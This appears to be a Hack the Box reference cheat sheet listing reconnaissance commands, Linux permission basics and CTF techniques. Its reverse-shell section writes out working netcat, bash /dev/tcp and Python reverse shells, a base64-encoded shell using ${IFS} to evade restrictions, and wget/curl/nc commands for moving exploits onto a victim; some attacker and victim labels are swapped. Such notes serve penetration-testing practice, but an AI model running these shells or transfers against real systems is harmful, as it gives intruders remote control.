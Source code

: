 ## Hack the Box Reference.<br>
***<h2>Contains commands,Link and tricks for challenges</h2>***<br>
***COMMON COMMANDS***<br>
**Nmap**<br>
•	nmap -sV -p 1-20000  -iL input.txt -oN output.txt<br>
**masscan probe to establish the open ports in the host.**<br>
•	masscan -e tun0 -p1-65535,U:1-65535 10.10.10.101 --rate=700<br>

**nmap scanning the discovered ports to see what are the services.**<br>
•	nmap -sV -v -O -sS -T5 {target}<br>

**Subfinder(only subfinder can run large wordlist)**<br>
•	./subfinder -d freelancer.com -o output.txt<br>
**Eyewitness**<br>
•	./EyeWitness.py --headless -f hunchly_dark.txt -d output_dir1 --prepend-https <br>
•	./EyeWitness.py --web --thread 50 -f hunchly_dark.txt -d output_dir1 --prepend-https<br>
•	dnscan.py -d ubnt.com -w /SecLists/Discovery/DNS/bitquark_subdomains_top100K.txt -t 30 -o D_ubnt.txt<br>
•	masscan -p80,443,8080,9090,8081, 66.211.168.0/22 > mass_paypal.txt<br>
•	gobuster -m dns -u target.com -w $wordlist<br>
**installing tab completion**<br>
•	apt-get install bash-completion<br>
**Untar**<br>
•	tar -xvf sqlmap.tar.gz<br>
•	gzip -d file.gz<br>
•	tcpdump port 9009<br>
•	tcpdump -nni eth0 icmp<br>
•	ps -eaf | grep [w]get<br>
•	cat /proc/meminfo<br>
•	cat /proc/cpuinfo<br>
•	wfuzz.py -c -z file,commons.txt --hc 404 -o html http://www.site.com/FUZZ 2> /var/www/html/res.html<br>
•	./parameth.py -u TARGET<br>
•	python linkfinder.py -i https://example.com/1.js -o results.html<br>

**list all file in a directory with permission**<br>
ls -l /home<br>
In the above it is listing all files of home directory with permissions<br>
**list all files with hidden with permission**<br>
ls -al<br>
**show permission of directory or file**<br>
ls -ld<br>
**Dir and File Bruteforce or enumeration**<br>
*WFUZZ*<br>
wfuzz -c -z file,/root/SecLists/Discovery/Web-Content/common.txt --hc 404,400 -X GET -u http://10.10.10.160/FUZZ<br>

**Gobuster Dir enumeration**<br>
```gobuster -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -t 20 -e -x php,htm,html,txt -u http://target```<br>

**REVERSE SHELL**<br>

Victim: ncat -e /bin/bash {IP} {PORT}<br>
Attacker: Machine:nc -lvnp {PORT}<br>
python -m SimpleHTTPServer 9999<br>
Victim: bash -i >& /dev/tcp/{IP}/{PORT} 0>&1<br>

Attacker: Machine:nc -lvnp {PORT}<br>
Victim(Base64): echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;<br>

Attacker:nc 192.168.1.102 4444 -e /bin/sh <br>
Victim:nc -lvp 4444 <br>
Attacker:python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'<br>
Victim:nc -lvp 1234<br>
Note:In the above payload python will run and creating bash shell.But while sometimes trying to put commands it throws error like you have to run through terminal.For that Run Below command to work properly<br>
<br>
python3 -c 'import pty; pty.spawn("/bin/sh")'<br>
<br>
**File transfer during REVERSE SHELL**<br>
Attacker: service apache2 start<br>
place shell or exploit in /var/www/html<br>

Attacker:python -m SimpleHTTPServer 9999<br>
Victim: wget 192.168.1.102:9999/file.txt<br>
Victim: curl -O http://192.168.0.101/file.txt<br>

Attacker:nc -lvp 4444 < /root/home/exploit.txt<br>
Victim:nc 192.168.1.102 4444 > exploit.txt<br>




**bypass-bash-restrictions**<br>
https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions<br>

**Bypass shell restriction using {IFS} and Base 64 encoding**

```echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85MDA3IDA+JjE|base64${IFS}-d|bash${IFS}-;```<br>
it means the highlighted part below is base64 encoded to bypass shell restriction<br>
echo${IFS}**bash -i >& /dev/tcp/10.10.14.94/9007 0>&1**|base64${IFS}-d|bash${IFS}-;<br>
**Understanding Linux File and directory permissions**<br>
d 	r 	w 	x 	r 	w 	x 	r 	w 	x  t<br>
Dir	    Owner 	   Group 	       Other <br>
Directory 	Read 	Write 	Execute 	Read 	Write 	Execute 	Read 	Write 	Execute <br>
t is sticky flag restricted to executed by owner
If any of these letters is replaced with a hyphen (-), it means that permission is not granted.For example <br>
drwxr-xr-x<br>
    A folder which has read, write and execute permissions for the owner, but only read and execute permissions for the group and exe for other users.<br>
-rw-rw-rw-<br>
    A file that can be read and written by anyone, but not executed at all.<br>
    
    
**Understanding Linux File and directory permissions Using Numbers**<br>
No (R) 	 (W) 	(X)<br>
0 	          No 	   No 	           No<br>
1 	          No     No 	           Yes<br>
2 	          No 	   Yes 	            No<br>
3 	          No 	   Yes 	           Yes<br>
4 	          Yes 	  No 	            No<br>
5 	          Yes 	  No 	            Yes<br>
6 	          Yes 	  Yes 	           No<br>
7 	          Yes    	Yes 	          Yes<br>

777 is the same as rwxrwxrwx<br>

755 is the same as rwxr-xr-x<br>


